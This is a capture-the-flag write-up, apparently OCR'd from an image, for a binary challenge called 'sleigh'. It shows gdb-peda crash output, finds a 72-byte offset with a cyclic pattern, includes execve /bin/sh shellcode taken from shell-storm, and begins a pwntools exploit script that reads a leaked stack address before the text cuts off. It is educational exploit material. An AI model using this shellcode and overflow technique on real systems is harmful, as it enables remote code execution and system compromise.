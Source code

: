 ```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                    
                                                                                                              
                                                                                                              

1. Repair  ⚒                                                                                                  
2. Abandon 🏃                                                                                                 
> 1                                                                                                           
                                                                                                              
[!] There is something written underneath the sleigh: [0x7fffffffdeb0]                                        
                                                                                                              
[*] This might help the repair team to fix it. What shall they do?                                            
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL        
                                                                                                              
[-] Unfortunately, the sleigh could not be repaired! 😥                                                       
                                                                                                              
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdef8: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to get the shellcode from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).
```
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
```

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 72
pop_rdi = 0x0000000000000c63
ret = 0x000000000000076e
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

elf = ELF("./sleigh")
s = elf.process()

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")

print(s.recvuntil(b"There is something written underneath the sleigh: [").decode())

# strip to remove the unneeded part "]\n" and convert it into integer
leakVariable = int(s.recvline(b"]").strip(b"]\n"), 16)
```